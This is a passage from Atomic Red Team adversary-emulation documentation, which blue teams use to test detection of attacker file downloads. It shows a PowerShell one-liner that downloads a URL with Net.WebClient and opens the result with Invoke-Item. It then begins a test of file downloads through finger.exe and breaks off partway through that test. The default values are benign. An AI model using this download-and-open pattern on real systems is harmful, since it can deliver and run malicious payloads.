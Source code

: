 


<br/>
<br/>

## Atomic Test #15 - File Download via PowerShell
Use PowerShell to download and write an arbitrary file from the internet. Example is from the 2021 Threat Detection Report by Red Canary.

**Supported Platforms:** Windows


**auto_generated_guid:** 54a4daf1-71df-4383-9ba7-f1a295d8b6d2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_remote_file | File to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt|
| output_file | File to write to | string | LICENSE.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
(New-Object Net.WebClient).DownloadString('#{target_remote_file}') | Out-File #{output_file}; Invoke-Item #{output_file}
```






<br/>
<br/>

## Atomic Test #16 - File download with finger.exe on Windows
Simulate a file download using finger.exe. Connect to localhost by default, use custom input argument to test finger connecting to an external server.
Because this is being tested on the localhost, you should not be expecting a successful connection
https://www.exploit-db.com/exploits/48815
https://www.bleepingcomputer.com/news/security/windows-10-finger-command-can-be-abused-to-download-or-steal-files/

**Supported Platforms:** Windows


**auto_generated_guid:** 5f507e45-8411-4f99-84e7-e38530c45d01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote hostname or IP address | string | localhost|
